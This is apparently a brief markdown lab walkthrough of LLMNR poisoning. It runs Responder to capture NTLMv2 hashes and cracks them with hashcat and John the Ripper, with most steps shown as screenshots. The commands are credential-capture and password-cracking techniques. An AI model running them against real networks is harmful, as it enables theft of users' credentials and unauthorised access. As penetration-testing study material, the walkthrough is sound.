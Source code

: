 ## LLMNR Poisoning - Capturing NTLMv2 Hashes

$ ifconfig
$ sudo responder -I eth0

![llmnr-capture-ntlmv2hash-1](https://github.com/user-attachments/assets/bb5bc126-3932-4d78-bf94-5bdab72f4557)

</br>


![llmnr-capture-ntlmv2hash-2](https://github.com/user-attachments/assets/73eaf2a2-3ceb-4bfb-9e29-abcc2e1235d6)

![llmnr-capture-ntlmv2hash-3](https://github.com/user-attachments/assets/5301373a-0bf0-49e8-9830-d2a52a858acc)


## Trigger an LLMNR Event

![llmnr-capture-ntlmv2hash-4](https://github.com/user-attachments/assets/a75c11b5-bbb6-4470-a9db-da04be7a9f5a)


## Dumping NTLMv2 Hashes
![llmnr-capture-ntlmv2hash-5](https://github.com/user-attachments/assets/d26280ff-4be6-4117-aca5-c3ab9b35f163)


## Save Hash to a file
![llmnr-capture-ntlmv2hash-6](https://github.com/user-attachments/assets/212944c3-ccbc-4aab-aa8f-bd30558ed49f)


## Use Hashcat to crack the hash 

$ hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt

![llmnr-capture-ntlmv2hash-7](https://github.com/user-attachments/assets/b686e734-88df-42f8-902f-05836a141529)

## Use John to crack the hash 

![llmnr-capture-ntlmv2hash-8](https://github.com/user-attachments/assets/022ef5f9-a64a-4fec-936f-b5a041849694)
